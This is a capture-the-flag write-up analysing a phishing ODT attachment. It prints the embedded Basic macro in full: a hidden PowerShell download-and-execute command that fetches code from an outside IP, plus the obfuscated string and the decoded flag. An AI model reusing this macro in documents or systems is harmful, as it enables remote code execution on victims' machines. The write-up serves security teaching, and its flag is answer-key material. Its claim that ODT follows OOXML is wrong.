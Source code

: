 # Big Phish

The attachment on the email was an ODT file. ODT files are essentialy zip files as they follow the OOXML standard. To get a better idea of what's going on we can unzip `bigphish.odt`.

```
$ unzip bigphish.odt
Archive:  bigphish.odt
   creating: Basic/
   creating: Basic/Standard/
  inflating: Basic/Standard/script-lb.xml
  inflating: Basic/Standard/Module1.xml
  inflating: Basic/script-lc.xml
   creating: Configurations2/
   creating: Configurations2/accelerator/
  inflating: Configurations2/accelerator/current.xml
  inflating: content.xml
  inflating: manifest.rdf
  inflating: meta.xml
   creating: META-INF/
  inflating: META-INF/manifest.xml
  inflating: mimetype
  inflating: settings.xml
  inflating: styles.xml
   creating: Thumbnails/
  inflating: Thumbnails/thumbnail.png
```

Something that immediately stands out are the script xml files. Office documents can contain malicious macros that, when enabled and run, spawn reverse shells or execute arbitrary malicious code.

If we examine `Basic/Standard/Module1.xml` we can see a metasploit-generated macro payload.

```Powershell
Sub Exploit
    Shell(&quot;cmd.exe /C &quot;&quot;powershell.exe -nop -w hidden -c $x=new-object net.webclient;$x.proxy=[Net.WebRequest]::GetSystemWebProxy();$x.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $x.downloadstring(&#39;http://10.10.14.9:8080/rH41wL&#39;);[STRiNg]::joIN('' , ( '24t66:6c:61:67W20:3d~20-22r43-55t43W54-46W7b-50r6c~33%6er37Y79:5fr30W66W5fY50~68-31Y35Y68-5fW31:6e%5f%37~68Y33:5ft73%33r41Y7dt22' -SplIT'-' -sPlIT':' -spLiT'~'-Split'r' -SpliT'W' -SplIt 't' -SPlIT'Y'-SPlIt'%'| FOReACH { ( [CONVeRT]::TOint16( ( [StRinG]$_ ) , 16 )-As[cHAR]) }))|.( 'i'+[cHaR]([ConvERt]::ToiNT16(65, 16))+'x')&quot;&quot;&quot;)
End Sub
```

This payload executes cmd.exe which calls powershell.exe. That powershell process then downloads a file to the victim's computer. The next string appears to be heavily obfuscated. If we copy everything before the `|`, we should be able to safely deobfuscate the powershell. The content after the pipe is as follows:

```Powershell
|.( 'i'+[cHaR]([ConvERt]::ToiNT16(65, 16))+'x')
```

This is what runs the potentially malicious powershell preceding it. Deobfuscated, it translates to `iex` - the shorthand form of `Invoke-Expression`.

```
PS /root/> [STRiNg]::joIN('' , ( '24t66:6c:61:67W20:3d~20-22r43-55t43W54-46W7b-50r6c~33%6er37Y79:5fr30W66W5fY50~68-31Y35Y68-5fW31:6e%5f%37~68Y33:5ft73%33r41Y7dt22' -SplIT'-' -sPlIT':' -spLiT'~'-Split'r' -SpliT'W' -SplIt 't' -SPlIT'Y'-SPlIt'%'| FOReACH { ( [CONVeRT]::TOint16( ( [StRinG]$_ ) , 16 )-As[cHAR]) }))
$flag = "CUCTF{Pl3n7y_0f_Ph15h_1n_7h3_s3A}"
```
